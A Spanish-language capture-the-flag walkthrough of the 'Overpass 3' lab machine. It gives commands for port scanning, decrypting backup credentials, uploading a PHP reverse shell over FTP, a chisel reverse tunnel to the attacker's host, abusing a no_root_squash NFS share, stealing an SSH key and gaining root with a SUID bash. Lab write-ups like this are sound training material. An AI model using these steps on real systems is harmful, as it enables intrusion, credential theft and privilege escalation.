# Overpass 3 - Hosting
Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado dos puertos abiertos en el sistema: el puerto `22` para `ssh`, el `21` para `FTP` y el `80`, para `HTTP`.

<figure><figcaption></figcaption></figure>

Enumeramos los directorios en la página web.

Encontramos un directorio llamado `/backups`, lo descargamos y lo descomprimimos utilizando el siguiente comando.

<figure><figcaption></figcaption></figure>

```
unzip backup.zip
```

<figure><figcaption></figcaption></figure>

Al revisar, encontramos dos archivos `gpg`: uno es el archivo protegido `CustomerDetails.xlsx.gpg` y el otro, `priv.key`, es la clave que necesitamos para desencriptarlo. 

Procedemos a importar la clave.

```
gpg --import priv.key
```

Y Desencriptamos el archivo.

```
gpg CustomerDetails.xlsx.gpg
```

<figure><figcaption></figcaption></figure>

Finalmente, abrimos el archivo que nos proporciona y podemos ver las credenciales de acceso.

<figure><figcaption></figcaption></figure>

Con estas credenciales, podemos acceder al servidor `FTP` utilizando el usuario `paradox`.

<figure><figcaption></figcaption></figure>

Podemos cargar un archivo que contenga nuestra `rev-shell` en formato `PHP`, así que creamos nuestro archivo shell.php.



```
nano shell.php
```

Lo subimos al servidor `ftp` .

```
put shell.php
```

<figure><figcaption></figcaption></figure>

Realizamos una solicitud a nuestro archivo a través del navegador, lo que nos permite obtener una `shell` de `Apache`.


<figure><figcaption></figcaption></figure>

# \apache

Una vez que accedemos al servidor, encontramos el archivo que nos solicita `web.flag` en `/usr/share/httpd`.

<figure><figcaption></figcaption></figure>

Para elevar nuestros privilegios, podemos ejecutar `su paradox` e ingresar con la contraseña que teníamos anteriormente del archivo `Excel`, lo que nos permitirá acceder al usuario.

<figure><figcaption></figcaption></figure>

# \paradox

En la enumeración con `pspy64`, no encontramos nada anormal, ya que solo había procesos normales. Sin embargo, al utilizar `linpeas.sh`, nos damos cuenta de que hay un vector de ataque que podemos explotar.

```
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```

<figure><figcaption></figcaption></figure>

Sin embargo, al intentar enumerar el servicio, no podemos hacerlo.

<figure><figcaption></figcaption></figure>

Esto indica que está dentro del servidor, así que revisamos las conexiones de la tarjeta de red.

<figure><figcaption></figcaption></figure>

Aquí descubrimos que hay al menos seis puertos que podemos enumerar dentro de la máquina. Como no contamos con el comando, debemos tunelizar las solicitudes para redirigirlas a nuestra máquina. Utilizaremos `chisel` para lograrlo.

Local:
```
chisel server --reverse --port 9001
```

Victima:

```
./chisel client 10.*.*.**:9001 R:2049:127.0.0.1:2049
```

Ahora solo nos queda conectarnos y montar la conexión en una carpeta. Para ello, podemos utilizar el siguiente comando:

```
sudo mount -t nfs localhost:/ /mnt
```

Con esto, podemos acceder a nuestro segundo archivo, `user.flag`.

<figure><figcaption></figcaption></figure>

# \james

Para acceder como `james`, solo necesitamos copiar el archivo `id_rsa` del directorio `.ssh`.

<figure><figcaption></figcaption></figure>

Accedemos utilizando el siguiente comando:

```
ssh -i id_rsa james@<ip>
```

Con esto, solo nos queda acceder como `root`. Para lograrlo, desde nuestra máquina, seguimos estos pasos.

Desde la maquina objetivo:

```
cp /bin/bash
```

Desde la maquina atacante:

```
sudo su
```

```
chown root:root bash
```

```
chmod +s bash
```

<figure><figcaption></figcaption></figure>

Finalmente, desde la máquina objetivo, podemos obtener permisos de `root` con el siguiente comando y acceder a nuestro último archivo.
```
./bash -p
```

<figure><figcaption></figcaption></figure>

----------
>
>Pero Señor, dime: ¿Qué he hecho mal, que paso conmigo al final? ¿Qué estoy dejando ir? ¿Por qué siento este vacío, esta nostalgia? ¿Qué es esta ansiedad? Es como si amara algo que aún no conozco.
>
><figure><figcaption></figcaption></figure>